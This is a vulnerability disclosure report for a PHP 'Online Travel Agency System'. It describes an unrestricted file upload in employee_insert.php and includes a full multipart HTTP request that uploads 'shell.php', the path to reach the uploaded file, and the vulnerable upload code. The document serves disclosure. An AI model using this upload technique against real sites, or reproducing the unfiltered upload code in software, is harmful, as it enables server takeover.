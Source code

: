 # [Online Travel Agency System-File upload vulnerabilities-employee_insert.php]

## Basic Information

**[Bug Reporter]:** DililLearngent

**[Application Vendors]:** https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Affected Version]:**Online Travel Agency System V1.0

**[Test Environment]:** windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** File upload vulnerabilities

**[Vulnerability Url]:** http://localhost/Travel/admin/employee_insert.php

**[Vulnerability Location]:** /Travel/admin/employee_insert.php

**[Vulnerability Test]:**

1. First visit http://10.142.221.111/Travel/admin/employee.php, display the Add Employee page, fill in the relevant data, and upload a PHP file at the `photo` with the content `<?php phpinfo(); ? >`

   ![](../../img/20230428145644.png)

2. After clicking SUBMIT, get the packet as follows

   ```bash
   POST /Travel/admin/employee_insert.php HTTP/1.1
   Host: 10.142.221.111
   Content-Length: 1163
   Cache-Control: max-age=0
   Upgrade-Insecure-Requests: 1
   Origin: http://10.142.221.111
   Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylHk30v3mO57U1YBo
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
   Referer: http://10.142.221.111/Travel/admin/employee.php
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.9
   Cookie: PHPSESSID=25ljgqv0ko3gcoh9pgvutde2v2
   Connection: close
   
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="userfile"; filename="shell.php"
   Content-Type: application/octet-stream
   
   <?php phpinfo(); ?>
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_name"
   
   aaaaa
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_contact"
   
   1234567
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_email"
   
   212312@gmail.com
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_address"
   
   beijing
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_reference"
   
   asdasd
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_join"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_close"
   
   2023-04-28
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="emp_desc"
   
   none
   ------WebKitFormBoundarylHk30v3mO57U1YBo
   Content-Disposition: form-data; name="employeeform"
   
   submit
   ------WebKitFormBoundarylHk30v3mO57U1YBo--
   ```

   The response results are shown in the figure

   ![](../../img/20230428145804.png)

4. The file is successfully uploaded and the page jumps to employee_view.php, and the path to the file just uploaded is displayed on this page.

   ![](../../img/20230428150022.png)

5. Visit http://10.142.221.111/Travel/admin/user/shell.php

   ![](../../img/20230428150135.png)

**[code analysis]:**

In /Travel/admin/employee_insert.php:

```php
<?php 
//insertion into employee table
    if(isset($_REQUEST['employeeform']))
	{
 
 $image=$_FILES['userfile']['name'];
 $file_size=$_FILES['userfile']['size'];
 $tmp_file_name=$_FILES['userfile']['tmp_name']; 

$uploaddir='user/'.$image;
$uploadimage=$uploaddir;//specify the full path for file;

if(move_uploaded_file($tmp_file_name,$uploadimage))
{
	echo"file upload successfully";
}
else
{
	echo"error occured";
         
}// end of else
```

No filtering is done on uploaded filenames

In /Travel/admin/employee_view.php

```php+HTML
<?php 
  $total=0;
  //RETRIVAL DATA FROM EMPLOYEE TABALE
  $sql="select*from employee";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{   
    $emp_picture=$row['emp_picture']; 
	$emp_id=$row['emp_id'];
	$emp_name=$row['emp_name'];
	$emp_contact=$row['emp_contact'];
	$emp_address=$row['emp_address'];
	$emp_reference=$row['emp_reference'];
	$emp_email=$row['emp_email'];
	$emp_jion=$row['emp_join'];
	$emp_close=$row['emp_close'];
	$total=$total+1;

?>

// In line 68
<img src="<?php echo $emp_picture;?>" width="100" height="113" />
```

And the file address is echoed on the page


